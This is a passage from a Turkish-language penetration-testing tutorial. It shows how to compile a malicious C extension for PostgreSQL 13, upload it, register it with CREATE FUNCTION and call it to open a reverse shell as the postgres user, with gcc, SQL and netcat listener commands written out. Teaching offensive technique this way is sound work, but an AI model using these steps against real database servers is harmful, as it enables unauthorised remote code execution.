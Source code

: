 ```c

    PG_RETURN_INT32(0);
}
```

Not: Bu özel açık `Linux` üzerinde çalışan PostgreSQL'i hedeflemektedir. `Windows` için bir exploit yazma ve derleme işlemi çok benzerdir, sadece farklı API çağrıları ve bir DLL'ye derleme gerektirir.

Dosyanın başına yakın bir yerde `PG_MODULE_MAGIC` satırını görebilirsiniz. Uyumsuzluklardan kaynaklanan sorunları önlemek için `PostgreSQL` yalnızca doğru (major) versiyon için derlenmiş extensionları yüklemenize izin verecektir. Bu durumda, hedeflediğimiz `PostgreSQL` sürümü `13.9`'dur.

Bu extension'ı derlemek için öncelikle `13.` versiyon için `postgresql-server-dev` paketini yüklememiz gerekir:

```shell-session
[!bash!]$ sudo apt install postgresql-server-dev-13
```

Yüklendikten sonra, `gcc` kullanarak onu aşağıdaki gibi paylaşılan bir library objesine derleyebiliriz:

```shell-session
[!bash!]$ gcc -I$(pg_config --includedir-server) -shared -fPIC -o pg_rev_shell.so pg_rev_shell.c
```

Bir sonraki adım `pg_rev_shell.so` dosyasını web sunucusuna yüklemektir. Bunu nasıl yaptığınız önemli değildir ( `COPY` ya da `Large Objects`), yeter ki yüklendiği yolu tam olarak bilin. Yüklendikten sonra, `rev_shell` fonksiyonunu kütüphaneden veritabanına yüklemek için `CREATE FUNCTION`'ı çalıştırabilir ve ardından bir reverse shell elde etmek için çağırabiliriz.

```shell-session
bluebird=# CREATE FUNCTION rev_shell(text, integer) RETURNS integer AS '/tmp/pg_rev_shell', 'rev_shell' LANGUAGE C STRICT;
CREATE FUNCTION
bluebird=# SELECT rev_shell('127.0.0.1', 443);
server closed the connection unexpectedly
        This probably means the server terminated abnormally
        before or while processing the request.
```

Not: Dosya `pg_rev_shell.so` olmasına rağmen, `PostgreSQL komutunda` extension bırakılır.

İkinci SQL komutunu çalıştırdığınızda, veritabanının fonksiyonun (reverse shell) bitmesini beklediği için askıda kalması beklenir. Listener'ınızı kontrol ederseniz, `postgres` olarak bir reverse shell almalısınız.

```shell-session
[!bash!]$ nc -nvlp 443
listening on [any] 443 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45692
whoami
postgres
exit
```
